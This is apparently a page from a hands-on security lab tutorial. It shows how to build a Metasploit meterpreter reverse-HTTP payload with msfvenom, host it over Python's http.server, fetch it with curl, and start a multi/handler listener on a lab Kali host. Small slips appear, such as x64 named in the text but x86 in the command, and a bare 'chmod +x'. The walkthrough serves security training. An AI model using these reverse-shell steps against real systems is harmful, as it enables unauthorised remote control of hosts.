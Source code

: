 ```yaml
---
id: prepare_hack
title: Preparing the hack
sidebar_label: Preparation
---
```


In order to hack the system, we first need to generate a payload that will allow us to get a reverse shell on the target host.
Since the host we will be targetting is an amd64 system, we need to use the linux/x64/meterpreter_reverse_http payload.
We also need to configure the payload with the address it will need to connect back to, to establish the reverse shell, in this case kali.container.shipyard.run and port 9999.

We can do this by running `msfvenom` with our payload, the host and port we will be listening on, and the format we want the payload to be in.

```shell
┌──(root💀kali)-[/]
└─$ msfvenom -p linux/x86/meterpreter_reverse_http LHOST="kali.container.shipyard.run" LPORT="9999" -f elf > payload

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 1097244 bytes
Final size of elf file: 1097244 bytes
```

Lets double check that the payload is correctly generated, by making it executable and running it.

```shell
┌──(root💀kali)-[/]
└─$ chmod +x
```

```shell
┌──(root💀kali)-[/]
└─$ ./payload

^C
```

We should not see any output. But no errors mean it will run correctly.  
Exit out of the process with CTRL+C.

In order for our target to be able to execute the payload, we need to host it somewhere where it can be downloaded.
An easy way to serve files is by using the Python3 http.server module.

```shell
┌──(root💀kali)-[/]
└─$ python3 -m http.server &> /dev/null &

[1] 1556
```

By default it serves all the files in the current directory on port 8000.
If we wanted to download the payload file somewhere, we can do so by browsing to `http://kali.container.shipyard.run:8000/payload`.

```shell
curl http://kali.container.shipyard.run:8000/payload -o payload
```

Now that we have a payload and it is hosted somewhere, we need to start a listener to receive the incoming connections. We will be using meterpreter to do this.

Lets start the metasploit framework console.

```shell
┌──(root💀kali)-[/]
└─$ msfconsole

[*] Starting the Metasploit Framework console.../
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
[% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
[% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
[% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.0.15-dev                          ]
+ -- --=[ 2071 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x

msf6 >
```

Now that we are in the Metasploit console, lets verify that everything is running correctly.

```shell
msf6 > db_status

[*] Connected to msf. Connection type: postgresql.
```

Launch the multi/handler, which is a stub that handles exploits launched outside of the framework.

```shell
msf6 > use "exploit/multi/handler"

[*] Using configured payload generic/shell_reverse_tcp
```

Now we need to set some parameters before we start our local listener.  
We need to set the payload we want to use.

```shell
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter_reverse_http

PAYLOAD => linux/x86/meterpreter_reverse_http
```

The address we want to have our reverse handler listening on.

```shell
msf6 exploit(multi/handler) > set LHOST kali.container.shipyard.run

LHOST => kali.container.shipyard.run
```

And the port the reverse handler should listen on.

```shell
msf6 exploit(multi/handler) > set LPORT 9999

LPORT => 9999
```

We can then start the reverse handler.

```shell
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://10.5.0.2:9999
```

Now that we have the reverse handler running, we can execute the hack on the remote system.
